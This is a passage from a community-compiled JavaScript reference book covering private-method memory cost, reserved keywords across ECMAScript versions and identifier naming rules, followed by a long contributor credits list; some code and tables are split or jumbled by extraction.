Engines don\'t use the same types you have in JavaScript. As you
probably know, all numbers in JavaScript are IEEE754 double precision
floating point numbers, there\'s no specific available representation
for integers. But engines, when they can predict you only use
integers, can use a more compact and faster to use representation, for
example, short integers.
>
This kind of optimization is especially important for computation or
data intensive applications.

<h2 id="ch105">Chapter 105: Memory efficiency</h2>

<h3 id="ch105-1">Section 105.1: Drawback of creating true private method</h3>

One drawback of creating private method in JavaScript is
memory-inefficient because a copy of the private method will be
created every time a new instance is created. See this simple example.

**function**

contact

(

first

,

last

)

{

**this**

.

firstName

=

first

;

**this**

.

lastName

=

last

;

**this**

.

mobile

;

*// private method*

**var**

formatPhoneNumber

=

**function**

(

number

)

{

*// format phone number based on input*

}

;

*// public method*

**this**

.

setMobileNumber

=

**function**

(

number

)

{

**this**

.

mobile

=

formatPhoneNumber

(

number

)

;

}

;

}

When you create few instances, they all have a copy of
formatPhoneNumber method

**var**

rob

=

**new**

contact

(

\'Rob\'

,

\'Sanderson\'

)

;

**var**

don

=

**new**

contact

(

\'Donald\'

,

\'Trump\'

)

;

**var**

andy

=

**new**

contact

(

\'Andy\'

,

\'Whitehall\'

)

;

Thus, would be great to avoid using private method only if it\'s
necessary.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h2 id="chA">Appendix A: Reserved Keywords</h2>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Certain words - so-called *keywords* - are treated specially in
JavaScript. There\'s a plethora of different kinds of keywords, and
they have changed in different versions of the language.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="chA-1">Section A.1: Reserved Keywords</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**JavaScript has a predefined collection of *reserved keywords* which
you cannot use as variables, labels, or function names.**
>
**ECMAScript 1** Version = 1

++++
| ***A***  ***E***   | ***E***  ***R***   | ***S***    |
|                         |                         | ***Z***       |
+=========================+=========================+=================+
| **break**               | export                  | super           |
++++
| **case**                | extends                 | **switch**      |
++++
| **catch**               | **false**               | **this**        |
++++
| class                   | **finally**             | **throw**       |
++++
| **const**               | **for**                 | **true**        |
++++

**continuefunctiontry**

  
  debuggerif                                           **typeof**
   -
  **default** import                                   **var**

  **delete** in                                        **void**

  do **new**                                           while

  **else null**                                        with
  

enum **return**

**ECMAScript 2**
>
Added **24** additional reserved keywords. (New additions in bold).
Version = 3 Version = E4X

+++
| ***A***  ***F F***  ***P***         | ***P***  ***Z***    |
+===========================================+==========================+
| **abstractfinal**                         | **public**               |
+++
| **boolean finally**                       | **return**               |
+++
| **break float**                           | **short**                |
+++
| **byte for**                              | **static**               |
+++
| **case function**                         | super                    |
+++
| **catch goto**                            | **switch**               |
+++
| **char** if                               | **synchronized**         |
+++

class **implementsthis const** import **throw continue**in **throws**
>
debugger**instanceoftransient**

  
  **default**            **int**                     **true**
  -  
  **delete**             **interface**               **try**

  do                     **long**                    **typeof**

  **double**             **native**                  **var**

  **else**               **new**                     **void**

  enum                   **null**                    **volatile**

  export                 **package**                 while

  extends                **private**                 with
  

**false** protected

**ECMAScript 5 / 5.1**
>
There was no change since *ECMAScript 3*.
>
*ECMAScript 5* removed int, byte, char, **goto**, long, final, float,
short, double, native, throws, boolean, abstract, volatile, transient,
and synchronized; it added **let** and yield.

+++-+
| ***A***  ***F*** | ***F***  ***P***         | ***P***   |
|                       |                             | ***Z***      |
+=======================+=============================+================+
| **break**             | **finally**                 | public         |
+++-+
| **case**              | **for**                     | **return**     |
+++-+
| **catch**             | **function**                | **static**     |
+++-+
| class                 | if                          | super          |
+++-+

**const** implements**switch continue**import **this** debuggerin
**throw**

  
  **default**              **instanceoftrue**            
  -  -
  **delete**               interface                     **try**

  do                       **let**                       **typeof**

  **else**                 **new**                       **var**

  enum                     **null**                      **void**

  export                   package                       while

  extends                  private                       with

  **false**                protected                     **yield**
  

implements, **let**, private, public, interface, package, protected,
**static**, and yield are **disallowed in strict mode only**.
>
eval and arguments are not reserved words but they act like it in
**strict mode**. **ECMAScript 6 / ECMAScript 2015**

+-+-+
| ***A***  ***E E***  ***R***                   | ***S***   |
|                                                     | ***Z***      |
+=====================================================+================+
| **break** export                                    | super          |
+-+-+
| **case** extends                                    | **switch**     |
+-+-+
| **catch finally**                                   | **this**       |
+-+-+
| class **for**                                       | **throw**      |
+-+-+
| **const function**                                  | **try**        |
+-+-+
| **continue**if                                      | **typeof**     |
+-+-+
| debuggerimport                                      | **var**        |
+-+-+
| **default** in                                      | **void**       |
+-+-+

**delete instanceof**while

do **new** with

**else return** yield

Future reserved keywords
>
The following are reserved as future keywords by the ECMAScript
specification. They have no special functionality at present, but they
might at some future time, so they cannot be used as identifiers. enum
>
The following are only reserved when they are found in strict mode
code:
>
implementspackage public interface private \`static\' **let**
protected
>
Future reserved keywords in older standards
>
The following are reserved as future keywords by older ECMAScript
specifications (ECMAScript 1 till 3).
>
abstractfloat short boolean **goto** synchronized byte
**instanceof**throws
>
char int transient double long volatile final native
>
Additionally, the literals null, true, and false cannot be used as
identifiers in ECMAScript.

From the [Mozilla Developer
Network](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Lexical_grammar).

<h3 id="chA-2">Section A.2: Identifiers & Identifier Names</h3>

With regards to reserved words there is a small distinctions between
the *\"Identifiers\"* used for the likes of variable or function names
and the *\"Identifier Names\"* allowed as properties of composite data
types.
>
For example the following will result in an illegal syntax error:

**var**

**break**

=

**true**

;

Uncaught SyntaxError: Unexpected token break

However the name is deemed valid as a property of an object (as of
ECMAScript 5+):

**var**

obj

=

{

**break**

:

**true**

}

;

console.

log

(

obj.

**break**

)

;

To quote from [this
answer](http://stackoverflow.com/questions/40209367/do-reserved-words-need-to-be-quoted-when-set-as-property-names-of-javascript-obj/40210179#40210179):
>
From the [ECMAScript® 5.1 Language
Specification](http://www.ecma-international.org/ecma-262/5.1):
>
Section 7.6
>
Identifier Names are tokens that are interpreted according to the
grammar given in the "Identifiers" section of chapter 5 of the Unicode
standard, with some small modifications. An Identifier is an
IdentifierName that is not a ReservedWord (see
[7.6.1](http://www.ecma-international.org/ecma-262/5.1/#sec-7.6.1)).

**Syntax**

Identifier

::

IdentifierName but not ReservedWord

By specification, a

ReservedWord

is:

Section 7.6.1

A reserved word is an

IdentifierName

that cannot be used as an

Identifier

.

ReservedWord

::

Keyword

FutureReservedWord

NullLiteral

BooleanLiteral

This includes keywords, future keywords, **null**, and boolean
literals. The full list of keywords are in [Sections
7.6.1](http://www.ecma-international.org/ecma-262/5.1/#sec-7.6.1) and
literals are in [Section
7.8](http://www.ecma-international.org/ecma-262/5.1/#sec-7.8).
>
The above (Section 7.6) implies that IdentifierNames can be
ReservedWords, and from the specification for [object
initializers](http://www.ecma-international.org/ecma-262/5.1/#sec-11.1.5):

Section 11.1.5

**Syntax**

ObjectLiteral

:

{

}

{

PropertyNameAndValueList

}

{

PropertyNameAndValueList

,

}

Where

PropertyName

is, by specification:

PropertyName

:

IdentifierName

StringLiteral

NumericLiteral

As you can see, a PropertyName may be an IdentifierName, thus allowing
ReservedWords to be PropertyNames. That conclusively tells us that,
*by specification*, it is allowed to have ReservedWords such as class
and **var** as PropertyNames unquoted just like string literals or
numeric literals.
>
To read more, see [Section
7.6](http://www.ecma-international.org/ecma-262/5.1/#sec-7.6) -
Identifier Names and Identifiers.
>
***Note:*** the syntax highlighter in this example has spotted the
reserved word and still highlighted it. While the example is valid
JavaScript developers can get caught out by some compiler /
transpiler, linter and minifier tools that argue otherwise.

# Credits

Thank you greatly to all the people from Stack Overflow Documentation
who helped provide this content, more changes can be sent to
[web@petercv.com]{.underline} for new content to be published or
updated

  
  [16807](https://stackoverflow.com/users/2584689/)            Chapter 104
   
  [2426021684](https://stackoverflow.com/users/6369276/)       Chapters 1, 7, 12, 42 and 59

  [4444](https://stackoverflow.com/users/1464444/)             Chapter 23

  [4m1r](https://stackoverflow.com/users/2296997/)             Chapter 100

  [A.J](https://stackoverflow.com/users/2720743/)              Chapter 61

  [A.M.K](https://stackoverflow.com/users/900747/)             Chapters 5, 12, 40, 63, 72 and 73

  [Aadit M Shah](https://stackoverflow.com/users/783743/)      Chapter 29

  [Abdelaziz                                                   Chapter 1
  Mokhnache](https://stackoverflow.com/users/5192846/)         

  [Abhishek](https://stackoverflow.com/users/3925609/)         Chapter 65

  [Abhishek Singh](https://stackoverflow.com/users/5716106/)   Chapter 48

  [Adam Heath](https://stackoverflow.com/users/219750/)        Chapter 59

  [adius](https://stackoverflow.com/users/1850340/)            Chapter 31

  [adriennetacke](https://stackoverflow.com/users/3731657/)    Chapter 68

  [Aeolingamenfel](https://stackoverflow.com/users/3681236/)   Chapter 62

  [afzalex](https://stackoverflow.com/users/3626698/)          Chapter 42

  [Ahmed Ayoub](https://stackoverflow.com/users/2637185/)      Chapter 12

  [aikeru](https://stackoverflow.com/users/76840/)             Chapter 14

  [Ajedi32](https://stackoverflow.com/users/1157054/)          Chapter 16

  [Akshat Mahajan](https://stackoverflow.com/users/2271269/)   Chapter 53

  [Ala Eddine                                                  Chapters 1, 24 and 56
  JEBALI](https://stackoverflow.com/users/1343790/)            

  [Alberto                                                     Chapters 13, 14 and 43
  Nicoletti](https://stackoverflow.com/users/2073379/)         

  [Alejandro Nanez](https://stackoverflow.com/users/1405803/)  Chapter 12

  [Alex](https://stackoverflow.com/users/1397240/)             Chapter 63

  [Alex Filatov](https://stackoverflow.com/users/2173016/)     Chapters 14, 35 and 67

  [Alex Logan](https://stackoverflow.com/users/6161714/)       Chapter 5

  [Alexander                                                   Chapter 1
  O\'Mara](https://stackoverflow.com/users/3155639/)           

  [Alexandre N.](https://stackoverflow.com/users/7179086/)     Chapters 1 and 42

  [aluxian](https://stackoverflow.com/users/1133344/)          Chapter 81

  [amflare](https://stackoverflow.com/users/5937428/)          Chapter 20

  [Aminadav](https://stackoverflow.com/users/1229624/)         Chapters 1, 35 and 104

  [Andrew Burgess](https://stackoverflow.com/users/12096/)     Chapter 55

  [Andrew Myers](https://stackoverflow.com/users/5764553/)     Chapter 4

  [Andrew                                                      Chapters 59 and 98
  Sklyarevsky](https://stackoverflow.com/users/894973/)        

  [Andrew Sun](https://stackoverflow.com/users/1591742/)       Chapter 59

  [Andrey](https://stackoverflow.com/users/2182767/)           Chapter 14

  [Angel Politis](https://stackoverflow.com/users/6313073/)    Chapters 36 and 47

  [Angela Amarapala](https://stackoverflow.com/users/6284797/) Chapter 26

  [Angelos Chalaris](https://stackoverflow.com/users/1650200/) Chapters 13, 37 and 46

  [Ani Menon](https://stackoverflow.com/users/2142994/)        Chapters 1 and 36

  [Anirudh Modi](https://stackoverflow.com/users/4197363/)     Chapters 12, 19, 50, 60 and 62

  [Anirudha](https://stackoverflow.com/users/598420/)          Chapter 103

  [Anko](https://stackoverflow.com/users/777586/)              Chapter 1

  [Ankur Anand](https://stackoverflow.com/users/3027001/)      Chapter 1

  [Anurag Singh                                                Chapter 87
  Bisht](https://stackoverflow.com/users/3436826/)             

  [Ara Yeressian](https://stackoverflow.com/users/1324935/)    Chapter 42

  [Araknid](https://stackoverflow.com/users/4268627/)          Chapters 11 and 30

  [arbybruce](https://stackoverflow.com/users/4731569/)        Chapter 33
  

  
  [Armfoot](https://stackoverflow.com/users/1326147/)            Chapter 62
   
  [AstroCB](https://stackoverflow.com/users/3366929/)            Chapter 1

  [Aswin](https://stackoverflow.com/users/1624261/)              Chapter 21

  [Atakan Goktepe](https://stackoverflow.com/users/5366882/)     Chapter 5

  [ATechieThought](https://stackoverflow.com/users/3768367/)     Chapter 1

  [Ates Goral](https://stackoverflow.com/users/23501/)           Chapters 3, 35 and 42

  [Awal Garg](https://stackoverflow.com/users/3459110/)          Chapters 41 and 42

  [azz](https://stackoverflow.com/users/1280997/)                Chapter 10

  [Badacadabra](https://stackoverflow.com/users/6910253/)        Chapter 25

  [baga](https://stackoverflow.com/users/1816770/)               Chapter 5

  [balpha](https://stackoverflow.com/users/115866/)              Chapter 12

  [Bamieh](https://stackoverflow.com/users/5384679/)             Chapter 12

  [BarakD](https://stackoverflow.com/users/5196561/)             Chapter 22

  [Barmar](https://stackoverflow.com/users/1491895/)             Chapter 14

  [Basilin Joe](https://stackoverflow.com/users/3521176/)        Chapter 28

  [Beau](https://stackoverflow.com/users/60371/)                 Chapter 5

  [Bekim Bacaj](https://stackoverflow.com/users/5896426/)        Chapter 1

  [Ben](https://stackoverflow.com/users/348314/)                 Chapter 12

  [Ben McCormick](https://stackoverflow.com/users/1424361/)      Chapter 60

  [Benjadahl](https://stackoverflow.com/users/5056525/)          Chapter 19

  [Bennett](https://stackoverflow.com/users/5067993/)            Chapter 70

  [bfavaretto](https://stackoverflow.com/users/825789/)          Chapter 1

  [Bit Byte](https://stackoverflow.com/users/3434588/)           Chapter 89

  [Black](https://stackoverflow.com/users/4684797/)              Chapter 1

  [Blindman67](https://stackoverflow.com/users/3877726/)         Chapters 10, 12, 14, 28, 41, 56, 84 and
                                                                 104

  [bloodyKnuckles](https://stackoverflow.com/users/2743458/)     Chapter 63

  [Blubberguy22](https://stackoverflow.com/users/3842050/)       Chapter 11

  [Blue Sheep](https://stackoverflow.com/users/2019825/)         Chapters 14 and 104

  [BluePill](https://stackoverflow.com/users/4938301/)           Chapter 7

  [Blundering                                                    Chapters 1 and 42
  Philosopher](https://stackoverflow.com/users/2430414/)         

  [bobylito](https://stackoverflow.com/users/654253/)            Chapter 42

  [Boopathi Rajaa](https://stackoverflow.com/users/556124/)      Chapters 22, 41, 50 and 63

  [Borja Tur](https://stackoverflow.com/users/6181766/)          Chapters 13 and 19

  [Božo Stojković](https://stackoverflow.com/users/4936137/)     Chapters 1, 12 and 42

  [Brandon Buck](https://stackoverflow.com/users/445322/)        Chapter 1

  [Brendan Doherty](https://stackoverflow.com/users/5303755/)    Chapter 50

  [brentonstrine](https://stackoverflow.com/users/925897/)       Chapter 19

  [Brett DeWoody](https://stackoverflow.com/users/438581/)       Chapter 12

  [Brett Zamir](https://stackoverflow.com/users/271577/)         Chapters 1 and 4

  [Brian Liu](https://stackoverflow.com/users/4796724/)          Chapter 105

  [bwegs](https://stackoverflow.com/users/745750/)               Chapters 1, 56 and 62

  [C L K Kissane](https://stackoverflow.com/users/4224536/)      Chapter 5

  [Callan Heard](https://stackoverflow.com/users/2030247/)       Chapter 50

  [CamJohnson26](https://stackoverflow.com/users/3587534/)       Chapter 50

  [catalogue_number](https://stackoverflow.com/users/3264977/)   Chapter 1

  [cchamberlain](https://stackoverflow.com/users/769871/)        Chapter 5

  [CD..](https://stackoverflow.com/users/139300/)                Chapters 12 and 13

  [cdm](https://stackoverflow.com/users/4663542/)                Chapter 58

  [cdrini](https://stackoverflow.com/users/2317712/)             Chapters 19 and 55

  [Cerbrus](https://stackoverflow.com/users/1835379/)            Chapters 1, 5, 14, 17, 40, 42, 99 and 103

  [cFreed](https://stackoverflow.com/users/3415269/)             Chapter 10

  [Charlie H](https://stackoverflow.com/users/4185234/)          Chapters 10, 14, 35 and 54

  [Chong Lip Phang](https://stackoverflow.com/users/2691226/)    Chapter 50
  

  -
  [choz](https://stackoverflow.com/users/1627271/)             Chapter 19
   
  [Chris](https://stackoverflow.com/users/536950/)             Chapters 10 and 22

  [Christian](https://stackoverflow.com/users/6702958/)        Chapter 2

  [Christian                                                   Chapter 13
  Landgren](https://stackoverflow.com/users/913800/)           

  [Christoph](https://stackoverflow.com/users/1047823/)        Chapter 1

  [Christophe                                                  Chapter 42
  Marois](https://stackoverflow.com/users/1558527/)            

  [Christopher                                                 Chapter 27
  Ronning](https://stackoverflow.com/users/2898801/)           

  [Claudiu](https://stackoverflow.com/users/15055/)            Chapters 7 and 42

  [Cliff Burton](https://stackoverflow.com/users/4120911/)     Chapters 13 and 19

  [Code Uniquely](https://stackoverflow.com/users/1582029/)    Chapter 18

  [codemano](https://stackoverflow.com/users/7798155/)         Chapter 12

  [code_monk](https://stackoverflow.com/users/977083/)         Chapter 12

  [CodingIntrigue](https://stackoverflow.com/users/571194/)    Chapters 7, 12, 13, 50, 57 and 69

  [Colin](https://stackoverflow.com/users/2986033/)            Chapter 10

  [cone56](https://stackoverflow.com/users/2229579/)           Chapter 92

  [Conlin Durbin](https://stackoverflow.com/users/1466592/)    Chapter 27

  [CPHPython](https://stackoverflow.com/users/6225838/)        Chapters 5, 12, 19, 50, 56 and 62

  [Creative John](https://stackoverflow.com/users/5065086/)    Chapter 24

  [CroMagnon](https://stackoverflow.com/users/3687463/)        Chapters 27 and 48

  [csander](https://stackoverflow.com/users/2276009/)          Chapters 6, 8, 18, 38, 43, 56 and 85

  [cswl](https://stackoverflow.com/users/5026445/)             Chapters 15 and 81

  [Daksh Gupta](https://stackoverflow.com/users/5662469/)      Chapters 1 and 62

  [Damon](https://stackoverflow.com/users/5026139/)            Chapters 11, 12, 19 and 62

  [Dan Pantry](https://stackoverflow.com/users/1073868/)       Chapter 42

  [Daniel](https://stackoverflow.com/users/3346612/)           Chapter 12

  [Daniel Herr](https://stackoverflow.com/users/3591628/)      Chapters 11, 12, 18, 30, 35, 41, 42 and 55

  [Daniel LIn](https://stackoverflow.com/users/4434245/)       Chapter 79

  [daniellmb](https://stackoverflow.com/users/131944/)         Chapters 1 and 42

  [daniphilia](https://stackoverflow.com/users/6558051/)       Chapter 102

  [DarkKnight](https://stackoverflow.com/users/4578017/)       Chapters 19 and 60

  [dauruy](https://stackoverflow.com/users/4422260/)           Chapter 12

  [Dave Sag](https://stackoverflow.com/users/917187/)          Chapters 42 and 100

  [David Archibald](https://stackoverflow.com/users/5461005/)  Chapter 1

  [David G.](https://stackoverflow.com/users/3838549/)         Chapters 1 and 42

  [David Knipe](https://stackoverflow.com/users/2064808/)      Chapter 56

  [Davis](https://stackoverflow.com/users/4621303/)            Chapters 14, 19, 59 and 62

  [DawnPaladin](https://stackoverflow.com/users/1805453/)      Chapters 5, 59 and 99

  [Deepak Bansal](https://stackoverflow.com/users/6794259/)    Chapter 99

  [Denys Séguret](https://stackoverflow.com/users/263525/)     Chapter 104

  [Derek 朕會功夫](https://stackoverflow.com/users/283863/)    Chapter 35

  [DevDig](https://stackoverflow.com/users/1203741/)           Chapter 62

  [Devid Farinelli](https://stackoverflow.com/users/4695325/)  Chapters 1 and 99

  [devlin carnate](https://stackoverflow.com/users/2359687/)   Chapter 42

  [Diego Molina](https://stackoverflow.com/users/6629549/)     Chapter 59

  [dns_nx](https://stackoverflow.com/users/3725142/)           Chapter 12

  [Domenic](https://stackoverflow.com/users/3191/)             Chapters 12 and 49

  [DontVoteMeDown](https://stackoverflow.com/users/1267304/)   Chapter 1

  [Downgoat](https://stackoverflow.com/users/1620622/)         Chapters 73 and 96

  [Dr. Cool](https://stackoverflow.com/users/1739408/)         Chapter 90

  [Dr. J.                                                      Chapter 12
  Testington](https://stackoverflow.com/users/6594854/)        

  [Drew](https://stackoverflow.com/users/595605/)              Chapter 14

  [dunnza](https://stackoverflow.com/users/561902/)            Chapter 42

  [Durgpal Singh](https://stackoverflow.com/users/1759015/)    Chapters 19 and 42
  -

  
  [DVJex](https://stackoverflow.com/users/4560343/)            Chapter 99
   
  [DzinX](https://stackoverflow.com/users/18745/)              Chapter 12

  [Ehsan Sajjad](https://stackoverflow.com/users/1875256/)     Chapter 99

  [Eirik Birkeland](https://stackoverflow.com/users/3897504/)  Chapter 19

  [Ekin](https://stackoverflow.com/users/2852427/)             Chapters 37 and 67

  [eltonkamami](https://stackoverflow.com/users/5267669/)      Chapters 18, 19, 31, 62 and 99

  [Emissary](https://stackoverflow.com/users/1238344/)         Chapters 5, 17, 104 and 106

  [Emre Bolat](https://stackoverflow.com/users/6382007/)       Chapter 106

  [Erik Minarini](https://stackoverflow.com/users/6093353/)    Chapter 42

  [Ethan](https://stackoverflow.com/users/1261879/)            Chapter 62

  [et_l](https://stackoverflow.com/users/3836051/)             Chapters 13 and 65

  [Evan Bechtol](https://stackoverflow.com/users/4515720/)     Chapter 42

  [Everettss](https://stackoverflow.com/users/3708596/)        Chapters 1, 19 and 57

  [Explosion Pills](https://stackoverflow.com/users/454533/)   Chapter 81

  [Fab313](https://stackoverflow.com/users/1611417/)           Chapter 22

  [fracz](https://stackoverflow.com/users/878514/)             Chapters 12 and 42

  [Frank Tan](https://stackoverflow.com/users/4326495/)        Chapter 60

  [FrankCamara](https://stackoverflow.com/users/5223631/)      Chapter 12

  [FredMaggiowski](https://stackoverflow.com/users/3119050/)   Chapter 13

  [fson](https://stackoverflow.com/users/1530110/)             Chapters 42 and 81

  [Gabriel                                                     Chapter 41
  Furstenheim](https://stackoverflow.com/users/1536133/)       

  [Gabriel L.](https://stackoverflow.com/users/4876305/)       Chapter 42

  [Gaurang Tandon](https://stackoverflow.com/users/2675672/)   Chapter 14

  [Gavishiddappa                                               Chapter 19
  Gadagi](https://stackoverflow.com/users/5950377/)            

  [gca](https://stackoverflow.com/users/1421069/)              Chapter 10

  [gcampbell](https://stackoverflow.com/users/6303733/)        Chapter 7

  [geekonaut](https://stackoverflow.com/users/585967/)         Chapters 61, 63 and 89

  [georg](https://stackoverflow.com/users/989121/)             Chapter 42

  [George Bailey](https://stackoverflow.com/users/463304/)     Chapters 12, 13, 30 and 90

  [GingerPlusPlus](https://stackoverflow.com/users/3821804/)   Chapter 99

  [gman](https://stackoverflow.com/users/128511/)              Chapters 1, 5 and 29

  [gnerkus](https://stackoverflow.com/users/2259144/)          Chapter 11

  [GOTO 0](https://stackoverflow.com/users/1083663/)           Chapters 7, 67 and 78

  [Grundy](https://stackoverflow.com/users/2881286/)           Chapter 10

  [Guybrush                                                    Chapter 22
  Threepwood](https://stackoverflow.com/users/3869455/)        

  [H. Pauwelyn](https://stackoverflow.com/users/4551041/)      Chapters 1 and 65

  [hairboat](https://stackoverflow.com/users/865899/)          Chapter 19

  [Hans Strausl](https://stackoverflow.com/users/2022914/)     Chapters 3 and 12

  [hansmaad](https://stackoverflow.com/users/498298/)          Chapter 12

  [Hardik Kanjariya                                            Chapters 12, 14, 46 and 47
  ツ](https://stackoverflow.com/users/4423221/)                

  [harish gadiya](https://stackoverflow.com/users/3979073/)    Chapter 104

  [haykam](https://stackoverflow.com/users/5513988/)           Chapters 1, 5, 7 and 101

  [Hayko Koryun](https://stackoverflow.com/users/771466/)      Chapter 14

  [HC\_](https://stackoverflow.com/users/2762310/)             Chapter 64

  [HDT](https://stackoverflow.com/users/2560137/)              Chapter 43

  [Hendry](https://stackoverflow.com/users/1728166/)           Chapter 91

  [Henrique                                                    Chapters 42 and 56
  Barcelos](https://stackoverflow.com/users/1798341/)          

  [Hi I\'m Frogatto](https://stackoverflow.com/users/1841194/) Chapter 7

  [hiby](https://stackoverflow.com/users/5709868/)             Chapter 33

  [hindmost](https://stackoverflow.com/users/2118955/)         Chapters 14 and 29

  [hirnwunde](https://stackoverflow.com/users/5690568/)        Chapter 5

  [hirse](https://stackoverflow.com/users/1469028/)            Chapter 36

  [HopeNick](https://stackoverflow.com/users/1349893/)         Chapters 15 and 85
  

  
  [Hunan                                                    Chapter 12
  Rostomyan](https://stackoverflow.com/users/2672370/)      
  - 
  [I am always                                              Chapter 83
  right](https://stackoverflow.com/users/4038917/)          

  [Iain Ballard](https://stackoverflow.com/users/423033/)   Chapter 50

  [Ian](https://stackoverflow.com/users/21061/)             Chapters 10, 19 and 35

  [iBelieve](https://stackoverflow.com/users/1917313/)      Chapters 55 and 57

  [Igor Raush](https://stackoverflow.com/users/1391671/)    Chapters 10, 41, 42, 57 and 62

  [Inanc Gumus](https://stackoverflow.com/users/115363/)    Chapters 1, 5 and 81

  [inetphantom](https://stackoverflow.com/users/2828611/)   Chapter 1

  [Ishmael                                                  Chapter 12
  Smyrnow](https://stackoverflow.com/users/192217/)         

  [Isti115](https://stackoverflow.com/users/1831096/)       Chapter 12

  [iulian](https://stackoverflow.com/users/3120525/)        Chapter 15

  [Ivan](https://stackoverflow.com/users/6331369/)          Chapter 36

  [ivarni](https://stackoverflow.com/users/957731/)         Chapter 22

  [J F](https://stackoverflow.com/users/5244995/)           Chapters 14, 58, 59, 89 and 90

  [jabacchetta](https://stackoverflow.com/users/4500152/)   Chapter 62

  [James                                                    Chapter 32
  Donnelly](https://stackoverflow.com/users/1317805/)       

  [James Long](https://stackoverflow.com/users/557019/)     Chapter 12

  [Jamie](https://stackoverflow.com/users/3222831/)         Chapter 10

  [Jan Pokorný](https://stackoverflow.com/users/6099426/)   Chapter 13

  [Jason Park](https://stackoverflow.com/users/4548134/)    Chapter 12

  [Jay](https://stackoverflow.com/users/3082194/)           Chapters 19 and 22

  [JBCP](https://stackoverflow.com/users/1017787/)          Chapters 3 and 42

  [jbmartinez](https://stackoverflow.com/users/3397274/)    Chapter 19

  [jchavannes](https://stackoverflow.com/users/744298/)     Chapter 30

  [jchitel](https://stackoverflow.com/users/1234443/)       Chapter 42

  [JCOC611](https://stackoverflow.com/users/532978/)        Chapter 40

  [JDB](https://stackoverflow.com/users/211627/)            Chapter 19

  [Jean Lourenço](https://stackoverflow.com/users/1964479/) Chapter 19

  [Jef](https://stackoverflow.com/users/4142458/)           Chapter 106

  [Jeremy Banks](https://stackoverflow.com/users/1114/)     Chapters 1, 10, 12, 13, 14, 19, 22, 27, 33, 35, 36,
                                                            50, 51, 53, 54, 55, 62, 71, 94 and 97

  [Jeremy J                                                 Chapter 12
  Starcher](https://stackoverflow.com/users/807787/)        

  [Jeroen](https://stackoverflow.com/users/419956/)         Chapters 1 and 11

  [JimmyLv](https://stackoverflow.com/users/5871340/)       Chapter 81

  [Jinw](https://stackoverflow.com/users/4794828/)          Chapter 79

  [jisoo](https://stackoverflow.com/users/6377969/)         Chapter 12

  [jitendra                                                 Chapter 1
  varshney](https://stackoverflow.com/users/6402939/)       

  [Jivings](https://stackoverflow.com/users/334274/)        Chapters 10, 35, 50 and 55

  [jkdev](https://stackoverflow.com/users/3345375/)         Chapters 3, 10, 12, 18, 30, 35, 36, 39 and 56

  [JKillian](https://stackoverflow.com/users/3124288/)      Chapter 31

  [jmattheis](https://stackoverflow.com/users/4244993/)     Chapter 1

  [John](https://stackoverflow.com/users/6310232/)          Chapter 13

  [John Archer](https://stackoverflow.com/users/887930/)    Chapter 99

  [John C](https://stackoverflow.com/users/1173776/)        Chapter 8

  [John                                                     Chapter 28
  Oksasoglu](https://stackoverflow.com/users/6713446/)      

  [John Slegers](https://stackoverflow.com/users/1946501/)  Chapters 1, 8, 12, 35, 42, 53 and 62

  [John Syrinek](https://stackoverflow.com/users/400550/)   Chapters 29 and 68

  [Jonas W.](https://stackoverflow.com/users/5260024/)      Chapter 13

  [Jonathan Lam](https://stackoverflow.com/users/2397327/)  Chapters 1, 7, 29 and 45

  [Jonathan                                                 Chapters 18, 27 and 31
  Walters](https://stackoverflow.com/users/4838658/)        

  [Joseph](https://stackoverflow.com/users/575527/)         Chapters 19 and 42

  [Joshua                                                   Chapters 1 and 25
  Kleveter](https://stackoverflow.com/users/4581977/)       

  [Junbang Huang](https://stackoverflow.com/users/3077801/) Chapter 76
  

  -
  [Just a student](https://stackoverflow.com/users/962603/) Chapters 5 and 74
  - 
  [K48](https://stackoverflow.com/users/6269864/)           Chapters 1, 9, 10, 33, 42 and 99

  [kamoroso94](https://stackoverflow.com/users/2727710/)    Chapters 8, 14, 19 and 64

  [kanaka](https://stackoverflow.com/users/471795/)         Chapter 61

  [kapantzak](https://stackoverflow.com/users/1221792/)     Chapters 20 and 62

  [Karuppiah](https://stackoverflow.com/users/4772008/)     Chapter 1

  [Kayce Basques](https://stackoverflow.com/users/1669860/) Chapter 63

  [Keith](https://stackoverflow.com/users/905/)             Chapters 81 and 82

  [Kemi](https://stackoverflow.com/users/5168448/)          Chapter 69

  [kevguy](https://stackoverflow.com/users/5836921/)        Chapters 62 and 63

  [Kevin Katzke](https://stackoverflow.com/users/1280289/)  Chapter 10

  [Kevin Law](https://stackoverflow.com/users/585371/)      Chapter 19

  [khawarPK](https://stackoverflow.com/users/1465579/)      Chapter 10

  [Kit Grose](https://stackoverflow.com/users/181495/)      Chapter 54

  [Knu](https://stackoverflow.com/users/248058/)            Chapters 10, 11, 13, 14, 18, 35, 36, 97 and 99

  [Kousha](https://stackoverflow.com/users/834045/)         Chapter 10

  [Kyle Blake](https://stackoverflow.com/users/4597392/)    Chapters 10 and 12

  [L Bahr](https://stackoverflow.com/users/6194193/)        Chapters 10, 37, 66 and 102

  [leo.fcx](https://stackoverflow.com/users/3417449/)       Chapter 42

  [Li357](https://stackoverflow.com/users/5647260/)         Chapter 106

  [Liam](https://stackoverflow.com/users/542251/)           Chapter 17

  [Lisa Gagarina](https://stackoverflow.com/users/4255426/) Chapter 65

  [LiShuaiyuan](https://stackoverflow.com/users/7165616/)   Chapter 35

  [Little Child](https://stackoverflow.com/users/1894684/)  Chapter 41

  [little pootis](https://stackoverflow.com/users/1947276/) Chapter 1

  [Louis                                                    Chapters 13, 35 and 65
  Barranqueiro](https://stackoverflow.com/users/3755845/)   

  [Luís Hendrix](https://stackoverflow.com/users/5174914/)  Chapters 10, 60 and 104

  [Luc125](https://stackoverflow.com/users/746757/)         Chapters 7 and 12

  [luisfarzati](https://stackoverflow.com/users/1206952/)   Chapter 42

